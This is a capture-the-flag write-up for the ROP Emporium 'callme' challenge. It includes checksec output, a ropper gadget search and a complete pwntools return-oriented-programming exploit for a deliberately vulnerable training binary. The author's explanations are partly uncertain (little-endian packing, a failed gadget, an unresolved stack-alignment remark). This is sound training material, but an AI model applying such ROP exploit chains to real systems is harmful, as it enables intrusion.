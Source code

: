 # Challenge 3 - callme
## Description
This is the third of the ROP Emporium challenges. [callme](https://ropemporium.com/challenge/split.html)

"Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain."

Let's inspect the binary
```
mfumega@pwn-boy:/pwn-boy$ file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
mfumega@pwn-boy:/pwn-boy$
mfumega@pwn-boy:/pwn-boy$ pwn checksec callme
[*] '/pwn-boy/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
mfumega@pwn-boy:/pwn-boy$
```

And now with this in mind, we run it and prompts for our input just like the challenges before. 

If we look at the functions of the binary, we now find 3 functions called `callme_one, callme_two and callme_three`, and based on the information that the page gave us, we know that we must call this functions in the above order, with the arguments `0xdeadbeef, 0xcafebabe, 0xd00df00d`. Like this:
`callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)`.

From the previous challenge we know how to pass an argument to a function, we did it with RDI, and we already saw that the second and third arguments are passed with "RSI" and "RDX". 

Let's see which gadgets we have on the binary and filter by "pop rdi" to avoid a giant gadgets list.

```
mfumega@pwn-boy:/pwn-boy$ ropper --file callme --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004009a3: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Ok, so we actually have the one that we want. Let's write down all the addresses we have until now. 

I wrote the exploit using that gadget but didn't work, so instead I've used this gadgets:
```
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d
```

Also I have to pass the arguments directly in little endian. *I need to look this understand it better.*

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'
binary_path = '/pwn-boy/callme'
p = process(binary_path)
e = p.elf

# Addresses
callme_one = e.plt['callme_one']
callme_two = e.plt['callme_two']
callme_three = e.plt['callme_three']
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d

offset = 40

payload = b'A' * offset
payload += p64(pop_rdi) +  b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_one)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_two)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_three)

p.send(payload)
response = p.recvall()
print(response.decode())
```

This is the final exploit to get the flag. See you on the next one! 

> I think it might be due to some stack alignment issue. I'll review it soon and upload it once I spot the mistake!! 
